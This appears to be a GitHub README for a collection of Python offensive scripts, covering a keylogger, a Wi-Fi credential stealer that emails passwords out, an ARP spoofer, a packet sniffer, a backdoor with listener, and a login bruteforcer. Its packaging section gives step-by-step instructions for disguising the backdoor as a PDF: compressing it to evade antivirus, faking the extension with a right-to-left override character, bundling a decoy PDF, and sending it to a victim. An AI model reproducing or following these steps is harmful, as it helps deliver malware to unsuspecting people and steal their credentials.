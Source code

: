# Python Scripts
A Collection of Python Scripts.

## Packaging

### Common
- Search pdf in [IconFinder](https://www.iconfinder.com/) to create an icon (Free, 512*\512, .ico)
- To bypass AntiVirus, use [UPX](https://github.com/upx/upx/releases) to compress exe file: ```./upx /root/PycharmProjects/backdoor/dist/backdoor.exe -o compressed_bacdoor.exe```
- Change the file extension:
  - Install Characters 3.34.0: ```apt install gnome-characters```
  - Search for 'Right-to-left Override' in 'Characters' tool in Kali
  - Select 'Copy Character' to copy 'Unicode U+202E' to clipboard
  - Open notepad and write 'al\*fdp.exe' then paste in the place of star
  - Rename the file to 'alexe.pdf'
- Zip the pdf file to hide the exe extension and send to victim

### Windows
- Install pyinstaller for python: ```python.exe -m pip install pyinstaller```
- Convert to exe: ```pyinstaller.exe backdoor.py --onefile --noconsole --add-data "/root/Downloads/sample.pdf;." --icon /root/Downlaods/pdf.ico```

### Linux
- Install python for Windows inside Linux: ```wine msiexec /i python-2.7.14.msi```
- Install pyinstaller for python: ```wine /root/.wine/drive_c/Python27/python.exe -m pip install pyinstaller```
- Install all imported library: ```wine /root/.wine/drive_c/Python27/python.exe -m pip install pynput```
- Convert to exe: ```wine /root/.wine/drive_c/Python27/Scripts/pyinstaller.exe backdoor.py --onefile --noconsole --add-data "/root/Downloads/sample.pdf;." --icon /root/Downlaods/pdf.ico```

## Usage

### Linux MAC Changer
```python linux_MAC_changer.py --interface eth0 --mac 12:11:11:11:11:11```
- First octet of the new MAC should be even (because of Unicast)

### Network Scanner
```python network_scanner.py --target 172.25.12.34/24```
- Use ```arp``` as a filter to check output in Wireshark

### ARP Spoofer
```python arp_spoofer.py --target 172.25.12.21 --gateway 172.25.12.1```
- Use ```echo 1 > /proc/sys/net/ipv4``` in attacker machine to route victim traffic to gateway

### Packet Sniffer
```python packet_sniffer.py --interface Ethernet```
- Use ```pip install scapy_http```
- Turn off all proxy
- Combine this script with Arp Spoofer

### ARP Spoof Detector
```python arp_spoof_detector.py```

### Wifi Passwords
```python packet_sniffer.py --interface Ethernet```
- Set "Less secure apps" for gmail account
- It will send all wifi credentials on laptop to an email address


### Key Logger
```python key_logger.py```
- Set "Less secure apps" for gmail account

### Listener
```python listener.py```
- Set attacker machine`a IP for my_listener object

### Backdoor
```python backdoor.py```
- Set attacker machine`a IP for my_backdoor object
- Use a sample pdf file to show to user

### Subdomain Discovery
```python subdomain_discovery.py```

### Directory Discovery
```python directory_discovery.py```

### Spider
```python spider.py```

### Login Bruteforce
```python login_bruteforce.py```


